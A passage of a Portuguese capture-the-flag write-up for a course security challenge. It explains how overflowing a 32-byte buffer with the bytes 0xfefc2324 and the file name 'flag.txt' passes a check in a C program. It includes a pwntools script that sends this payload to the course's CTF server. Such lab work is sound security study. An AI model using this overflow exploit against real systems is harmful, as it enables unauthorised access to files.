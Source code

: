 ```c
        while(1){
            if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }
    } else {
        printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
    }

    fflush(stdout);
    
    return 0;
}
```

## Resolução do problema
Neste caso, a string fornecida terá de conter o valor `0xfefc2324`, para este ser atribuído à variável `val`, e a condição ser verdadeira. Após isso, teremos de acrescentar o nome do ficheiro (`flag.txt`), que é o que queremos aceder.

```py
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

r.recvuntil(b":")
r.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x24\x23\xfc\xfeflag.txt")
r.interactive()
```

Alterando a porta para 4000, e a string para a que é acima indicada, executamos o programa e este é o output recebido:

![flag2](img/ctf5/image-2.png)

Submetendo a flag recebida, dá-se por concluído o Desafio 2, e consequentemente o CTF da semana 5.